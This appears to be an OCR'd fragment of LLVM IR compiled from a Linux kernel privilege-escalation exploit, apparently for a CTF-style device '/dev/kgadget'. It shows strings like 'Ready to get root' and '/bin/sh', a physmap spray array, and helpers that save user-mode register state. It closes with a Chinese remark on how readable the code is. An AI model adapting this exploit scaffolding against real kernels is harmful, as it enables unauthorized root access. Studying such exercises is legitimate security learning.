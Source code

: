 ```
@.str = private unnamed_addr constant [23 x i8] c"Status has been saved.\00", align 1
@.str.1 = private unnamed_addr constant [5 x i8] c"%#5x\00", align 1
@.str.2 = private unnamed_addr constant [4 x i8] c"   \00", align 1
@.str.3 = private unnamed_addr constant [6 x i8] c"%02x \00", align 1
@.str.4 = private unnamed_addr constant [4 x i8] c"%s\0A\00", align 1
@.str.5 = private unnamed_addr constant [34 x i8] c"\1B[31m\1B[1m[x] Fatal Error: %s\1B[0m\0A\00", align 1
@.str.6 = private unnamed_addr constant [27 x i8] c"\1B[33m\1B[1m[*] Info: %s\1B[0m\0A\00", align 1
@.str.7 = private unnamed_addr constant [30 x i8] c"\1B[32m\1B[1m[+] Success: %s\1B[0m\0A\00", align 1
@.str.8 = private unnamed_addr constant [24 x i8] c"Ready to get root......\00", align 1
@.str.9 = private unnamed_addr constant [20 x i8] c"Failed to get root!\00", align 1
@.str.10 = private unnamed_addr constant [10 x i8] c"Root got!\00", align 1
@.str.11 = private unnamed_addr constant [8 x i8] c"/bin/sh\00", align 1
@page_size = common dso_local global i64 0, align 8
@user_cs = common dso_local global i64 0, align 8
@user_rflags = common dso_local global i64 0, align 8
@user_sp = common dso_local global i64 0, align 8
@user_ss = common dso_local global i64 0, align 8
@.str.12 = private unnamed_addr constant [21 x i8] c"Spray content below:\00", align 1
@.str.13 = private unnamed_addr constant [13 x i8] c"/dev/kgadget\00", align 1
@dev = common dso_local global i32 0, align 4
@.str.14 = private unnamed_addr constant [35 x i8] c"Cannot open device \22/dev/kgadget\22!\00", align 1
@.str.15 = private unnamed_addr constant [23 x i8] c"Spraying physmap......\00", align 1
@map_spray = common dso_local global [16000 x i64*] zeroinitializer, align 16
@.str.16 = private unnamed_addr constant [14 x i8] c"Mmap Failure!\00", align 1
@guess = common dso_local global i64 0, align 8
@.str.17 = private unnamed_addr constant [30 x i8] c"Ready to turn to kernel......\00", align 1

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @save_status() #0 {
  call void asm sideeffect "mov user_cs, cs;mov user_ss, ss;mov user_sp, rsp;pushf;pop user_rflags;", "~{dirflag},~{fpsr},~{flags}"() #6, !srcloc !2
  call void @info_log(i8* getelementptr inbounds ([23 x i8], [23 x i8]* @.str, i64 0, i64 0))
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @info_log(i8* %0) #0 {
  %2 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  %3 = load i8*, i8** %2, align 8
  %4 = call i32 (i8*, ...) @printf(i8* getelementptr inbounds ([27 x i8], [27 x i8]* @.str.6, i64 0, i64 0), i8* %3)
  ret void
}
```

上面的代码是可读的，用另外一种方式阐述了代码的执行流程。
